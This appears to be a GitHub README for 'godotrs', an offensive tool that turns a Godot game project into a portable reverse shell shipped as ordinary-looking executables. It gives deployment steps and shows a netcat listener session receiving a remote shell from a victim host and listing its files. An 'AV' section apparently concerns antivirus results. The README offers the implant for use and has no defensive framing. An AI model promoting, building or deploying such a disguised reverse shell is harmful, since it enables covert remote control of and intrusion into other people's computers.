 # godotrs

portable godot (GDScript) based reverse shell

https://godotengine.org/download/

https://docs.godotengine.org/en/3.1/getting_started/scripting/index.html

**Supports**
- GDScript (godot)
- VBScript
- C# (+Mono)

**Usage**

Create project, add script to main scene or trigger scene. 

deploy & run:
- godotrs.exe
- godotrs.pck

```
root@kali:~# nc -lvp 9999
listening on [any] 9999 ...
192.168.1.71: inverse host lookup failed: Unknown host
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.71] 58913
ls -lha
>[total 107664
drwxr-xr-x  14 WOPR  staff   448B Dec 17 09:15 .
drwxr-xr-x@  5 WOPR  staff   160B Dec 17 06:59 ..
drwxr-xr-x   4 WOPR  staff   128B Dec 17 06:59 .import
-rw-r--r--   1 WOPR  staff   500B Dec 17 08:47 Popup.gd
-rw-r--r--   1 WOPR  staff   191B Dec 17 09:15 Popup.tscn
-rw-r--r--   1 WOPR  staff   163B Dec 17 09:15 default_env.tres
-rw-r--r--   1 WOPR  staff   774B Dec 17 09:12 export_presets.cfg
-rw-r--r--   1 WOPR  staff   9.6M Dec 17 09:06 godotrs.appx
-rw-r--r--@  1 WOPR  staff    15M Dec 17 09:02 godotrs.dmg
-rw-r--r--   1 WOPR  staff    27M Dec 17 09:12 godotrs.exe
-rw-r--r--   1 WOPR  staff    18K Dec 17 09:12 godotrs.pck
-rw-r--r--@  1 WOPR  staff   7.4K Dec 17 06:59 icon.png
-rw-r--r--   1 WOPR  staff   640B Dec 17 06:59 icon.png.import
-rw-r--r--@  1 WOPR  staff   736B Dec 17 09:15 project.godot
```

**CLI**

It's possible to execute GDScripts directly from a Godot installation if it's available on the system. 

https://docs.godotengine.org/en/3.1/getting_started/editor/command_line_tutorial.html

```
user@host:~/newgame$ godot -s sayhello.gd
```

**AV**

<img width="1401" alt="Screenshot 2019-12-17 at 09 13 29" src="https://user-images.githubusercontent.com/56988989/70982133-5d4dce80-20ae-11ea-84ca-e7b76b4847c7.png">

**Limitations**
- OpenGL 2.1 / OpenGL ES 2.0 compatible hardware to execute
